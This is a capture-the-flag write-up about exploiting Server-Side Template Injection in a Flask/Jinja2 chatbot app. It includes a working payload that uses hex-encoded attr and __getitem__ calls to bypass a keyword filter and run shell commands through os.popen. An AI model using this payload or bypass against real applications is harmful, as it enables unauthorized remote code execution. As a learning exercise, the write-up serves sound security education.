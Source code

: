 # description -> I thought building chatbots would be easy... Seems like my chatbot doesn't understand much.

**No sorce code was provided at this challenge**

## link -> http://34.132.132.69:8006/

**The main page of the website is this**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/05b2e505-16fe-4fa8-92fd-30eb6487a12e)

**I began contemplating Server-Side Template Injection (SSTI) because my input was being reflected. Additionally, the absence of a bot meant there was no immediate risk of someone following a malicious link to execute XSS and steal cookies. 😄**

**Initially, I injected the standard SSTI payload, which is {{7*7}}, and observed the output displaying 49.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/e37a23bc-9ff2-4476-ae3e-a6957288bb12)

**Let's begin the process of determining the backend programming language in use.**

**I initiated the process by inducing errors in the application, attempting to access unintended paths and observing the resulting output.** 

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/010408cf-0c01-4792-9f3d-f6ddc6a49f79)

**So, this error indicates the usage of Python Flask in the backend.**

**Now, let's determine the template engine that is currently in use.** 

**We can employ hacktrick tips (I suggest utilizing them) for assistance.**

**After spending some time interacting with the app, I determined that it is using Jinja2 as the template engine.**

**Let's utilize a basic payload from hacktricks. I employed the following payload: {{ cycler.__init__.__globals__.os.popen('id').read() }}.**

**And this marked the app's response - life is not easy. 😕** 

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/9e6da4db-7316-43f0-8954-d870feac3450)

**Now, our task is to discover the words that this app restricts or blocks.**

**After spending some time interacting with the app, I discovered that it blocks certain words, including ".", "cycler," and also prohibits the use of square brackets [].**

**We require a method to inject a period (.) and square brackets [] without being blocked by the app. Additionally, we need a way to insert the restricted words.**

**After conducting some research, I came across a writeup (link provided below) that utilized a function called attr (a built-in filter in Flask). This function enables concatenation between two values and also understands hexadecimal encoding. This can be our workaround to bypass the blocked words and the period (.). For instance, our payload might look like "sau"|attr("hexvaluees").**

**Additionally, we need a method to represent square brackets ([]). Luckily, there's a function called getitem that we can leverage to select items from the returned array.**

**So, our current objective is to transform the following code: "sai".__class__.__base__.__subclasses__()[147].__init__.__globals__['sys'].modules['os'].popen("hostname").read() using the upper functions for bypassing.**

**it will be like this after convertion {{"sai"|attr("\x5F\x5F\x63\x6C\x61\x73\x73\x5F\x5F")|attr("\x5F\x5F\x62\x61\x73\x65\x5F\x5F")|attr("\x5F\x5F\x73\x75\x62\x63\x6C\x61\x73\x73\x65\x73\x5F\x5F")()|attr("\x5f\x5fgetitem\x5f\x5f")(183)|attr("\x5F\x5F\x69\x6E\x69\x74\x5F\x5F")|attr("\x5F\x5F\x67\x6C\x6F\x62\x61\x6C\x73\x5F\x5F")|attr("\x5f\x5fgetitem\x5f\x5f")('sys')|attr("\x6D\x6F\x64\x75\x6C\x65\x73")|attr("\x5f\x5fgetitem\x5f\x5f")('os')|attr("\x70\x6F\x70\x65\x6E")("ls")|attr("\x72\x65\x61\x64")()}}**

**and pingo we can use it to get rce and read the flag**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/982240ef-22dd-45c8-9f65-75923e3fb44a)

used writeup link -> https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f





